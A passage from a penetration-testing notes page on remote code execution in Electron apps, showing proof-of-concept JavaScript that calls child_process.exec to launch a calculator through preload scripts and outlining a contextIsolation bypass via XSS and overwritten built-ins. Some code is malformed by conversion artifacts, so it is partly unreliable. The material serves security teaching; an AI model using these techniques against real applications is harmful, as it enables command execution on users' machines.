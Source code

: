 ```
  top.require("child_process").exec("open /System/Applications/Calculator.app")
</script>
```
```
![[../../../images/image (1110).png|]]


## RCE: preload

The script indicated in this setting is l**oaded before other scripts in the renderer**, so it has **unlimited access to Node APIs**:

```javascript
new BrowserWindow{
  webPreferences: {
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'perload.js'),
  }
});
```
```
Therefore, the script can export node-features to pages:

```javascript:preload.js
typeof require === "function"
window.runCalc = function () {
  require("child_process").exec("calc")
}
```
```
```html:index.html
<body>
  <script>
    typeof require === "undefined"
    runCalc()
  </script>
</body>
```
```
> [!NOTE] > **If `contextIsolation` is on, this won't work**

## RCE: XSS + contextIsolation

The _**contextIsolation**_ introduces the **separated contexts between the web page scripts and the JavaScript Electron's internal code** so that the JavaScript execution of each code does not affect each. This is a necessary feature to eliminate the possibility of RCE.

If the contexts aren't isolated an attacker can:

1. Execute **arbitrary JavaScript in renderer** (XSS or navigation to external sites)
2. **Overwrite the built-in method** which is used in preload or Electron internal code to own function
3. **Trigger** the use of **overwritten function**
4. RCE?

There are 2 places where built-int methods can be overwritten: In preload code or in Electron internal code:

[[electron-contextisolation-rce-via-preload-code.md]]

[[electron-contextisolation-rce-via-electron-internal-code.md]]

[[electron-contextisolation-rce-via-ipc.md]]

### Bypass click event
```